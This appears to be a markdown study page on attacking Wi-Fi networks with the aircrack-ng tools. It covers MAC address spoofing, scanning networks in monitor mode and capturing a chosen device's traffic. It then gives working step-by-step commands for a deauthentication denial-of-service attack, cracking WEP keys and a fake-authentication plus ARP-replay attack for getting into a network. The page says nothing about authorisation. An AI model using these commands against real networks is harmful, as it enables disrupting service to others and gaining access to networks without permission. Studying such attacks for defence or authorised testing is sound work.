 - `ifconfig` for all connection states
- `iwconfig` for all **wireless** connection states

The MAC address (specified by manufacturer) will be listed in `ifconfig` under `ether`. You can alter the MAC address in memory directly by:

1. Disabling that adapter `ifconfig eth0 down`
2. Reassign a new MAC address `ifconfig eth0 hw ether 00:11:22:33:44:55`

> The MAC address will be reset upon restarting or reconnecting the device.

#### Checking Wireless Networks

We can seek out wireless networks using `airodump-ng`. Ensure that your wireless access point (typically USB device) is in monitor mode with `iwconfig wlan0 mode monitor`. Now we can listen to available networks with `airodump-ng mon0` (where `mon0` is the access point in monitor mode). To listen on a variety of bands (eg, 2.4GHz and 5GHz), use the command `airodump-ng --band abg mon0`.

#### Sniffing Data from Specific Device

To sniff data to a file, the command `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`. This will sniff the data being transmitted by this device, and write it to a series of files. This data can later be analysed by programs like WireShark (because the data captured is potentially encrypted).

#### DeAuthentication Attack

This is a denial of service attack, but specifically for use in a Wi-Fi context. Ensuring to run `airodump-ng` at the same time during this attack. This is achieved with `aireplay-ng` and all that is required is to know the target MAC address (which is available in generic network sniffing (see above)).

`aireplay-ng -D --deauth [#deauthPackets] -a [NetworkMAC] -c [TargetMAC] [wifi card]`

### Gaining Access

#### Cracking WEP

1. Capture a large amount of packets `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aircrack-ng [filename.cap]` (leave step 1 running in the background)
    - To connect with ascii found, copy paste and connect!
    - TO CONNECT WITH KEY FOUND!, copy the key after the text provided in the square brackets, remove the colons [:], and copy paste that number when the Wi-Fi asks for a password.
    - If the network is not busy and not enough packets are being sent force the network to make packets (see step 3 in [Fake Authentication Attack](#fake-authentication-attack))

#### Fake Authentication Attack

1. run `airodump-ng --bssid [MAC] --channel [network_channel] --write [file_name] [wireless card]`
2. run `aireplay-ng --fakeauth [number of times (0 for 1 time)] -D -a [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
    - (Note in monitor mode MAC is the first 12 digits after unspec + replace [-] with [:] )
3. make sure your associated with the network (step 2) and run `aireplay-ng --arpreplay -b [TargetMAC] -h [YOUR_WirelessAdapter_MAC] [WirelessAdapter (wlan0) ]`
4. then run the crack `aircrack-ng [filename.cap]`
